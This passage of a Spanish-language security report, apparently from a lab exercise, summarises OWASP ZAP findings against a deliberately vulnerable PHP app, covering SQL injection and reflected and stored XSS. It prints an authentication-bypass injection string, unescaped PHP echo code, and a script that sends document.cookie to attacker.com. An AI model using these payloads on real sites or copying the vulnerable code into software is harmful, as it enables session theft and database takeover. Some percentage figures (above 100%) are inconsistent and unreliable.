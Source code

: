 **Explicación:**
```sql
-- Query inyectada:
SELECT * FROM usuarios WHERE username = '' OR '1'='1' AND ...
-- Resultado: Siempre TRUE
```

**Impacto:** Control total de la BD, bypass de autenticación  
**Instancias encontradas por ZAP:** 30 vulnerabilidades (166.7% del total)

---

### B. XSS Reflejado (Reflected) 🔴 (14 instancias)

**ZAP Report:** High Risk, Medium Confidence  
**Ubicación:** `GET http://192.168.60.3/app_vulnerable/usuarios.php?search=<scrIpt>alert(1);</scRipt>`

**Descripción:** El XSS reflejado se produce cuando los datos proporcionados por el usuario se reflejan en la respuesta del servidor sin la debida validación o escape.

**Código vulnerable:**
```php
$search = $_GET['search'];
echo "<p>Resultados: $search</p>";
```

**Proque es vulnerable:** Sin escape, permite inyección de scripts.
**Que es escape:** Es el proceso de convertir caracteres especiales en entidades HTML para evitar la ejecución de scripts.

**Demo en vivo:**
```
Búsqueda:
<script>alert('XSS')</script>
→ ¡Popup ejecutado!
```

**Payload real:**
```javascript
<script>
  fetch('http://attacker.com/steal?c=' + document.cookie);
</script>
```

**Impacto:** Robo de sesiones, phishing, keylogging  
**Instancias encontradas por ZAP:** 14 vulnerabilidades (77.8% del total)

---

### C. XSS Almacenado (Persistent) 🔴 (9 instancias)

**ZAP Report:** High Risk, Medium Confidence  
**Ubicación:** `GET http://192.168.60.3/app_vulnerable/usuarios.php`

**Descripción:** El XSS almacenado ocurre cuando los datos maliciosos se guardan en el servidor (por ejemplo, en una base de datos) y se muestran a otros usuarios sin la debida validación o escape.
